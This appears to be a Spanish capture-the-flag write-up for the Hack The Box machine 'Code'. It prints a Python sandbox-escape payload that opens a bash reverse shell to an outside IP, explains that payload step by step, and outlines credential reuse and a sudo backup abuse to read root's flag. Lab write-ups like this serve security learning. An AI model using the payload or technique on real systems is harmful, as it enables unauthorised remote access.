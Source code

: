 ![alt text](../../image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](../../image/code1.png)

En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave

![alt text](../../image/code2.png)
![alt text](../../image/code3.png)

Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*
![alt text](../../image/code4.png)

Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.

![alt text](../../image/code5.png)

Encuentro las palabras claves que no podían ser leídas por el IDE.

![alt text](../../image/code6.png)

Saliendo de la ruta app encontramos la primera flag de usuario.

![alt text](../../image/code7.png)

Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas

![alt text](../../image/code8.png)

![alt text](../../image/code9.png)

Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.

![alt text](../../image/code10.png)
![alt text](../../image/code11.png)

## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.

![alt text](../../image/code12.png)

Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.

![alt text](../../image/code13.png)
